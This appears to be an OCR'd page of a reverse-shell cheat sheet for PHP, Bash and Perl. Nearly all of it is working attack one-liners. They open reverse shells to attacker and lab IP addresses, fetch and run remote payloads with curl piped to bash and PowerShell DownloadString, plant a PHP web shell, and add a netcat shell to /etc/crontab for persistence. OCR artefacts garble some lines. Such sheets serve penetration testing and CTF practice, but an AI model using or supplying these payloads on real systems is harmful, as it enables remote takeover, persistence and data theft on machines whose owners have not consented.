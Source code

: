 ```
### **PHP**

-   php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'

    -   (Assumes TCP uses file descriptor 3. If it doesn’t work, try
        4,5, or 6)

-   curl -A “<?php file_put_contents(‘shell.php’,file_get_contents(‘http://10.9.96.217:8000/shell.php'))?>" -s http://10.10.75.120 <!DOCTYPE HTML> (send shell using curl)

-   <?php exec("powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.11.30/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp    -Reverse -IPAddress 10.11.11.30 -Port 1234");?>

-   <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'"); ?>

-   file.php: <?php system($_REQUEST[​ 'pwn'​ ]); ?>
    than:
-   file.php?pwn=curl 10.10.14.7/file.sh | bash

    file.sh: rm/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f
             bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
             bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'

### **Bash**

-   exec /bin/bash 0&0 2>&0

-   0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

-   exec 5<>/dev/tcp/ATTACKING-IP/80 cat <&5 | while read line; do $line 2>&5 >&5; done

    \# or: while read line 0\<&5; do \$line 2\>&5 \>&5; done

-   bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1

-   Crontab:
    shell = '''
            * * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc
            10.10.16.32 4444 >/tmp/f
            '''
            f = open('/etc/crontab', 'a')
            f.write(shell)
            f.close()

### **Perl**

-   exec "/bin/sh";

-   perl —e 'exec "/bin/sh";'

-   perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

-   perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;' 
    -   Windows
-   perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

    -    Windows

```